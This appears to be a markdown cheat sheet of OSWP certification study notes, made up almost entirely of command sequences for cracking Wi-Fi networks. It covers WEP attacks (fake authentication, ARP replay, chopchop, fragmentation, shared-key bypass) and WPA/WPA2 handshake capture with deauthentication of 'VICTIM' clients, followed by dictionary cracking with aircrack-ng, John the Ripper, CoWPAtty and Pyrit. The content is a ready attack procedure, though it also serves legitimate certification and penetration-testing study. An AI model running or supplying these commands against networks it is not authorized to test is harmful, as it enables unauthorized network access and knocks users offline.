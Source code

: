 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Open Authentication

#### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

#### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

#### Cracking clientless WEP network

##### KoreK chopchop attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -4 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

##### Fragmentation attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 6000 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -5 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

### Shared Key Authentication

#### Bypassing WEP Shared Key Authentication

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aireplay-ng -1 0 -e <ESSID> -y <.XOR FILENAME> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -3 -b <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aircrack-ng <.CAP FILENAME>
```

---

## WPA/WPA2 (Wi-Fi Protected Access)

### Pre-Shared Key Authentication

#### Cracking WPA with Aircrack-ng

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aircrack-ng -w <WORDLIST> <.CAP FILENAME>
```

#### Cracking WPA with John the Ripper (JTR)

```
./john --wordlist=<WORDLIST> --rules --stdout | aircrack-ng -e <ESSID> -w - <.CAP FILENAME>
```

#### Cracking WPA with Airolib-ng

```
aircrack-ng -r <DB NAME> <.CAP FILENAME>
```

#### Cracking WPA with CoWPAtty

```
cowpatty -r <.CAP FILENAME> -f <WORDLIST> -2 -s <ESSID>
```

#### Cracking WPA with Pyrit

```
airmon-ng start <INTERFACE> <CHANNEL>
pyrit -r <INTERFACE> -o <FILENAME> stripLive
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

##### Dictionary mode

```
pyrit -r <.CAP FILENAME> -i <WORDLIST> -b <BSSID> attack_passthrough
```

##### Database mode

```
pyrit -i <WORDLIST> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <.CAP FILENAME> -b <BSSID> attack_db
```

---

## References

https://blog.fabiopires.pt/cracking-wifi-my-personal-notes-part-1-of-3-wep/

